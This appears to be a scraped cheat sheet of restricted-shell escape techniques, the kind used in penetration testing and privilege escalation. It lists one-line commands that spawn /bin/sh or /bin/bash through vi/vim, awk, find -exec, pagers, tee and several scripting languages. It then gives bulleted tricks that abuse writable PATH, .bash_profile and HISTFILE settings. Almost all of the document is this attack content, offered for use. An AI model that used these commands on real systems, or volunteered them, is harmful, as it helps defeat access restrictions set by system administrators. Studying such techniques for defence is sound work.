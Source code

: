 VI / VIM

```
:set shell=/bin/bash
:shell
```

```
:! /bin/bash
```

AWK

```
awk 'BEGIN {system("/bin/sh")}'
```

Find

```
find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

More / Less / Man

```
'! /bin/sh'
'!/bin/sh'
'!bash'
```

Tee

```
echo "evil script code" | tee script.sh
```

Languages

```
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb(main:001:0> exec "/bin/sh"
```



- Copy files into $PATH
- Copy file into HOME (scp/ftp)
- Some restricted shells will start by running some files in an unrestricted mode (If your .bash_profile is executed in an unrestricted mode and it's editable)
- If HISTFILE and HISTSIZE are writable:
  - Set HISTFILE to the file you want to overwrite (preferably an executable)
  - Set HISTSIZE to 0 and then back to 100,
  - Then execute the lines you want in your shell script

References
